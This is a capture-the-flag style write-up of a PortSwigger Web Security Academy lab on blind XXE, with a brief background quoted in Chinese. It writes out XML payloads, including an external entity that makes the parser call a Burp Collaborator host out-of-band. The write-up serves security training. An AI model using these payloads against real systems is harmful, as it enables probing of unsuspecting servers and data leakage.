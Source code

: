 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Blind XXE with out-of-band interaction
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
* Goal: To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint:

## [Background](https://portswigger.net/web-security/xxe/blind)
> 有兩種廣泛的方法可以找到和利用Blind XXE 漏洞：
>
>您可以觸發out-of-band網絡交互，有時會在交互數據中泄露敏感數據。
>您可以通過錯誤消息包含敏感數據的方式觸發 XML 解析錯誤。

## Recon
1. Declare a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/BJpoMFLE2.png)
    As the result above, it seems can accept a new entity, then we can use it in `xml`
    
    ---
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/HkO4QYUEn.png)

2. So..., we can use out-of-band server try to leak some information


## Exp
1. Use Burp Collaborator
![](https://hackmd.io/_uploads/Sk3lDtIVh.png)
And copy the collaborator's payloads
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://s92t6q0ljljd7fttguns4mrdy44wsl.burpcollaborator.net"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    
2. Result
    ![](https://hackmd.io/_uploads/S1W7YKIV3.png)

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/r13iWF84h.png)
:::

## Reference
[Lab: Blind XXE with out-of-band interaction](https://www.cnblogs.com/Zeker62/p/15190054.html)
[XXE Lab Breakdown: Blind XXE with out-of-band interaction](https://youtu.be/T3eo0CtYzYo)
